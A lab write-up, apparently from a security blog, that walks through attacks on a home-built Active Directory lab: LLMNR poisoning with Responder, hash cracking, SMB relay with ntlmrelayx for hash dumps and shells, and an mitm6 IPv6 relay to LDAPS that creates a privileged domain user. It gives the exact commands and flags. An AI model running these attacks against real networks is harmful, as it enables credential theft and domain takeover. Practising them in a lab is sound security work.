 ```yaml
---
layout: post
title: AD Attack Lab Part Two (LLMNR poisoning, SMB relay, and IPv6 attack)
---
```

![Alt](https://bohansec.com/assets/AD-Attack-2/arthur-reeder-a661056QDbc-unsplash.jpg "Arthur Reeder")

In part two of the AD attack lab series, we will learn how to perform LLMNR poisoning, SMB relay, and IPv6 attack against the AD environment. If you do not have the AD environment set up yet, you can go to the [“AD attack lab part one”](https://bohansec.com/2020/10/10/How-To-Set-Up-AD-Attack-Lab-Part-1/){:target="_blank"} and follow the instruction to set the lab up. Note, I have changed my VMs spec in this lab. Currently, there are 4 VMs, they are Windows Server 2019, Windows 10 (2x), and Kali 2020.3. Each VMs assigned with 1 GB RAM and 1 Processor, and they all use the NAT network. If you do not have Kali installed yet, head over [here](https://www.kali.org/downloads/){:target="_blank"} to grab the latest version of Kali. Now, let’s dive into the lab setup. 

### Install Impacket

{% highlight js %}
wget https://bootstrap.pypa.io/get-pip.py
sudo python get-pip.py
wget https://github.com/SecureAuthCorp/impacket/releases/download/impacket_0_9_19/impacket-0.9.19.tar.gz
Extract the downloaded folder
cd impacket/
pip install .
sudo pip install .
{% endhighlight %}

Note, we will use Impacket 0.9.19 in this lab because of the compatible issue for some tools we are going to use. Also. notice that the Python2.7 is being used to install the pip so we will have the pip to use Python2.7.

![Configure Impacket](https://bohansec.com/assets/AD-Attack-2/1.PNG "Impacket")
![Configure Impacket](https://bohansec.com/assets/AD-Attack-2/2.PNG "Impacket")
![Configure Impacket](https://bohansec.com/assets/AD-Attack-2/3.PNG "Impacket")
![Configure Impacket](https://bohansec.com/assets/AD-Attack-2/5.PNG "Impacket")

### Perform LLMNR poisoning

Start all the 4 VMs. In kali, start the “Responder” and use the eth0 in this case with a Verbose mode. In one of the Windows 10 client, log in and try to access the Kali machine from the network drive. Note, this is for the demonstration purpose that someone in the network typed in a wrong network drive, and Responder now responds to this wrong DNS request. Essentially, the Responder tells the machine that it is the legit DNS server and asks the Windows 10 machine to send the hash to it. Note, 192.168.200.160 is the IP of Kali.

- Start the Responder

{% highlight js %}
sudo responder -I eth0 -rdwv
{% endhighlight %}

![LLMNR poisoning](https://bohansec.com/assets/AD-Attack-2/7.PNG "LLMNR poisoning")
![LLMNR poisoning](https://bohansec.com/assets/AD-Attack-2/8.PNG "LLMNR poisoning")

- Access our kali machine network drive from Windows 10 

![LLMNR poisoning](https://bohansec.com/assets/AD-Attack-2/9.PNG "LLMNR poisoning")
![LLMNR poisoning](https://bohansec.com/assets/AD-Attack-2/23.PNG "LLMNR poisoning")

Note, if your computers not visible in the network, you need to go to “Services” and turn on “Function Discover Resource Publication”.

- After a few seconds later, we see the captured NTLM hash

![LLMNR poisoning](https://bohansec.com/assets/AD-Attack-2/10.PNG "LLMNR poisoning")

- Save the hash in a file, and use “Rockyou” and “Hashcat” to crack the hash

![LLMNR poisoning](https://bohansec.com/assets/AD-Attack-2/11.PNG "LLMNR poisoning")
![LLMNR poisoning](https://bohansec.com/assets/AD-Attack-2/12.PNG "LLMNR poisoning")
![LLMNR poisoning](https://bohansec.com/assets/AD-Attack-2/13.PNG "LLMNR poisoning")

We see the Administrator’s password is “password”.

### SMB relay

- Do a Nmap scan to see if the SMB signing is enforced

{% highlight js %}
sudo nmap --script=smb2-security-mode.nse -p445 192.168.200.0/24 
{% endhighlight %}

The SMB signing is enabled but not enforced which means the SMB relay attack would work.

![SMB relay](https://bohansec.com/assets/AD-Attack-2/15.PNG "SMB relay")
![SMB relay](https://bohansec.com/assets/AD-Attack-2/16.PNG "SMB relay")

Save the target machine in a text file. Our target machine is the Windows 10 client, 192.168.200.158

![SMB relay](https://bohansec.com/assets/AD-Attack-2/17.PNG "SMB relay")

- Turn off SMB and HTTP servers in the Responder configuration file

{% highlight js %}
sudo nano /etc/responder/Responder.conf
{% endhighlight %}

![SMB relay](https://bohansec.com/assets/AD-Attack-2/18.PNG "SMB relay")

- Start the Responder and “ntlmrelayx.py” in the Kail machine

{% highlight js %}
sudo responder -I eth0 -rdwv
sudo ntlmrelayx.py -tf target.txt -smb2support
{% endhighlight %}

![SMB relay](https://bohansec.com/assets/AD-Attack-2/24.PNG "SMB relay")
![SMB relay](https://bohansec.com/assets/AD-Attack-2/25.PNG "SMB relay")

- Access our kali machine network drive from Windows 10 

![SMB relay](https://bohansec.com/assets/AD-Attack-2/23.PNG "SMB relay")

Now, the received hash is being relayed to the target and used to dump the local hashes on the machine.

- Save the dumbed hash in a text file

![SMB relay](https://bohansec.com/assets/AD-Attack-2/25.PNG "SMB relay")

### Shell Access via SMB relay

- We can use “ntlmrelay.py” to obtain an interactive shell

![SMB relay](https://bohansec.com/assets/AD-Attack-2/27.PNG "SMB relay")
![SMB relay](https://bohansec.com/assets/AD-Attack-2/28.PNG "SMB relay")
![SMB relay](https://bohansec.com/assets/AD-Attack-2/28.PNG "SMB relay")
![SMB relay](https://bohansec.com/assets/AD-Attack-2/30.PNG "SMB relay")
![SMB relay](https://bohansec.com/assets/AD-Attack-2/31.PNG "SMB relay")
![SMB relay](https://bohansec.com/assets/AD-Attack-2/32.PNG "SMB relay")

We can access the different shares in the shell includes C$ and ADMIN$

- Obtain a shell via Metasploit

Use the following module and set the variables as the following image shows:

{% highlight js %}
windows/smb/psexec
{% endhighlight %}

![SMB relay](https://bohansec.com/assets/AD-Attack-2/33.PNG "SMB relay")

After running the module, we obtained a shell. 

![SMB relay](https://bohansec.com/assets/AD-Attack-2/34.PNG "SMB relay")

- Obtain a shell via “psexec.py”

{% highlight js %}
sudo psexec.py kudos.local/bwallis:P@ssWord\!@192.168.200.156
{% endhighlight %}

![SMB relay](https://bohansec.com/assets/AD-Attack-2/35.PNG "SMB relay")

### IPv6 Attack via MITM6

- Install mitm6

{% highlight js %}
sudo git clone https://github.com/fox-it/mitm6
sudo python get-pip.py
sudo pip install .
{% endhighlight %}

![SMB relay](https://bohansec.com/assets/AD-Attack-2/36.PNG "SMB relay")
![SMB relay](https://bohansec.com/assets/AD-Attack-2/37.PNG "SMB relay")

Note, the image shows I used Python3 but I changed to Python2.7 later.

- Install the LDAPS Certificate on the server

Besides the screenshots shown in the following image, all the other steps can proceed with the default option. 

![MITM6](https://bohansec.com/assets/AD-Attack-2/39.PNG "MITM6")
![MITM6](https://bohansec.com/assets/AD-Attack-2/40.PNG "MITM6")
![MITM6](https://bohansec.com/assets/AD-Attack-2/41.PNG "MITM6")
![MITM6](https://bohansec.com/assets/AD-Attack-2/42.PNG "MITM6")
![MITM6](https://bohansec.com/assets/AD-Attack-2/43.PNG "MITM6")
![MITM6](https://bohansec.com/assets/AD-Attack-2/44.PNG "MITM6")
![MITM6](https://bohansec.com/assets/AD-Attack-2/45.PNG "MITM6")

- Restart the server

![MITM6](https://bohansec.com/assets/AD-Attack-2/46.PNG "MITM6")

- Verify if the LDAPS installed successfully by open LDP from PowerShell

![MITM6](https://bohansec.com/assets/AD-Attack-2/52.PNG "MITM6")
![MITM6](https://bohansec.com/assets/AD-Attack-2/53.PNG "MITM6")
![MITM6](https://bohansec.com/assets/AD-Attack-2/54.PNG "MITM6")

Note, if you can not connect to the LDAPS, try troubleshooting. I have to roll back to the previous snapshot early and re-install the CA role because for some reason my LDAPS wasn’t installed for the first time. 

- Start the “mitm6” and “ntlmrelayx.py” at the same time. 

{% highlight js %}
mitm6 -d kudos.local
sudo ntlmrelayx.py -6 -t ldaps://192.168.200.153 -wh fakewpad.kudos.local -l lootme
{% endhighlight %}

In the meanwhile, try to reboot one of your Windows 10 machines and log in the Windows 10 machine with the domain admin credential. 
![MITM6](https://bohansec.com/assets/AD-Attack-2/55.PNG "MITM6")


After a while, we see a new user is being added to the domain with a special privilege, at this point, we have full control over the domain. We can also see all the users the “ntlmrelayx.py” has enumerated in the “lootme” folder. We see the description field we created early for the “SQL Service” account. It’s never a good idea to leave any sensitive information in the description field of the user. 

![MITM6](https://bohansec.com/assets/AD-Attack-2/47.PNG "MITM6")
![MITM6](https://bohansec.com/assets/AD-Attack-2/48.PNG "MITM6")
![MITM6](https://bohansec.com/assets/AD-Attack-2/49.PNG "MITM6")
![MITM6](https://bohansec.com/assets/AD-Attack-2/50.PNG "MITM6")
![MITM6](https://bohansec.com/assets/AD-Attack-2/51.PNG "MITM6")

In this post, we learned how to use LLMNR poisoning, SMB relay, and IPv6 attack against the misconfigured AD environment. In the following posts, I will continue to discuss other ways to enumerate and attack the AD environment. Thank you for reading :)